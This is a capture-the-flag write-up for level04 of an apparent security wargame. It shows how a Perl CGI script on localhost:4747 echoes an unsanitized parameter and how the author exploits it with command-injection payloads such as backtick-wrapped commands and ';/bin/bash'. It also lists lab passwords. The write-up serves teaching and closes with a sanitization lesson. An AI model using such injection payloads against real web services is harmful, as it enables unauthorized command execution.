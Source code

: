 # Solve Level04
pass : qi0maab88jeaj46qoumi7maus

### Description
- perl script in level04 home, find the exact same file on /var/www/level04, ```diff``` on them return nothing
  - usually folder www makes sense for network things
- in home the file has special right (can we do the same has precedent level ?)
- in www the file has a + after the right file [he has differents access methods][df1] apache ?

#### The script
It uses CGI to execute echo command with the content of parameter 'x'
> Notice : program don't sanitize datas, we can put something like `level04.pl?x=pouet;/bin/bash`
Comment port 4747

#### Exploit the script
First, we need to focus on /home script and find a way to execute CGI
> we can pass params to script ```./scipt.pl param=lol``` [source][df3]
> `level04.pl x=pouet;/bin/bash` doesn't work, use `level04.pl x=pouet&&/bin/bash`

- the script has a comment localhost::4747 but the port is not open, can't access from outside
    - from inside ?
        - try ```top | grep flag04``` but nothing
        - need to find a way to listen local opened ports
            - ```man netstat``` ==> with option `-l` we can see listening ports ==> and taaadaaaa 4747 is here, we need to find a way to talk to localhost:4747 and use our precedents tests to exploit the script
            > from the end of the man netstat is obsolete and replace by `man ss`, ```ss -l```
        - don't have any local browser so try with ```man curl```
            - ```curl localhost:4747?x=\`getflag\` ```

## Solution
```curl localhost:4747?x=\`getflag\` ```

- no flag
- level05 : ne2searoevaevoem4ov4ar8ap

## Resolve problem
- never trust users, always sanitize your data


[df1]: https://stackoverflow.com/questions/30594871/what-does-the-dot-at-the-end-of-the-permissions-in-the-output-of-ls-lah-mean#:~:text=According%20to%20the%20Filesystem%20permissions,a%20SELinux%20context%20is%20present.
[df3]: https://metacpan.org/dist/CGI/view/lib/CGI.pod#DEBUGGING
